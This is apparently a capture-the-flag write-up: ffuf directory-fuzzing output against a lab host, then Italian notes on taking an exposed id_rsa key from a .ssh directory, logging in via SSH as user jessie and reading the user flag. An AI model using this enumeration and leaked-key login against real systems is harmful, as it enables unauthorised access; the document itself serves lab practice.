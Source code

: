 ┌──(kali㉿kali)-[~]
└─$ ffuf -w /usr/share/dirb/wordlists/big.txt  -u http://10.10.226.51/sitemap/FUZZ

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.226.51/sitemap/FUZZ
 :: Wordlist         : FUZZ: /usr/share/dirb/wordlists/big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

.ssh                    [Status: 301, Size: 319, Words: 20, Lines: 10, Duration: 63ms]
.htaccess               [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 64ms]
.htpasswd               [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 65ms]
css                     [Status: 301, Size: 318, Words: 20, Lines: 10, Duration: 61ms]
fonts                   [Status: 301, Size: 320, Words: 20, Lines: 10, Duration: 64ms]
images                  [Status: 301, Size: 321, Words: 20, Lines: 10, Duration: 59ms]
js                      [Status: 301, Size: 317, Words: 20, Lines: 10, Duration: 63ms]
:: Progress: [20469/20469] :: Job [1/1] :: 647 req/sec :: Duration: [0:00:33] :: Errors: 0 ::


1) Abbiamo Scoperto la directory .ssh che dentro ha il file id_rsa che ci servirà per connetterci al servizio ssh 
2) Ci copiamo id_rsa nel file  dentro il nostro computer che chiameremo id_rsa
3) Scopriamo nel codice sorgente della pagina Apache principale che il developer e Jessie quindi facciamo l'accesso come: ssh jessie@ip -i id_rsa
4) Poi entriamo nella macchina e nella directory Documents di jessie c'è la userflag:
